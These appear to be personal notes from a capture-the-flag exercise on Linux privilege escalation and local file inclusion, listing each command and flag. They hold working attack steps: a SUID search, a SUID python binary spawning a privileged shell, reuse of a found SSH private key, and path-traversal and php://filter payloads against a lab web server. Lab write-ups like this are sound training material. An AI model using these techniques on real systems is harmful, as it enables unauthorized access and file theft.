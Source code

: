 ####### Linux Fundamentals / Privesc challenge ############

ssh in and ls
flag 1 - cybersoc{D3m_4Re_Th3_fiL35}

cd look-in-here
cat flag2.txt
flag 2 - cybersoc{C4t_D0esnt_M34N_TH3_an1m4l}

ls -la
cd also/in/here and cat .flag3 
flag 3 - cybersoc{H1dD3n_F1l3s_f0UnD}


find . -name "flag4.txt" -print 2>/dev/null
cat ./var/backups/.my/secret/backup/folder/is/here/flag4.txt
flag 4 - cybersoc{I_H0Pe_You_Us3d_f1nd}

sudo -l
sudo -u flag5 /bin/bash
cd home -> flag5 -> cat flag5.txt
flag 5 - cybersoc{Ps3uD0_S3cUR1tY_1s_C0ol}

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
(find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null)
cd /opt/bins
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'                                                                                                 
cd /home -> /flag6 -> cat flag6.txt                                                                                                                      
flag6 - cybersoc{N1c3_EUID_H3ck3r}                                                                                                                       
                                                                                                                                                         
ls -la                                                                                                                                                   
cd .ssh                                                                                                                                                  
ssh -i /home/flag6/.ssh/id_flag7 flag7@127.0.0.1                                                                                                         
flag 7 - cybersoc{Put_P4s5w0rDs_0N_sSh_K3y5} 

#############################################################
LOFI challenges
https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers

flag 1 - http://10.128.238.88/?page=/var/www/html/../../../flag.txt

flag 2 - http://10.128.238.88/?page=php://filter/convert.base64-encode/resource=flag.php
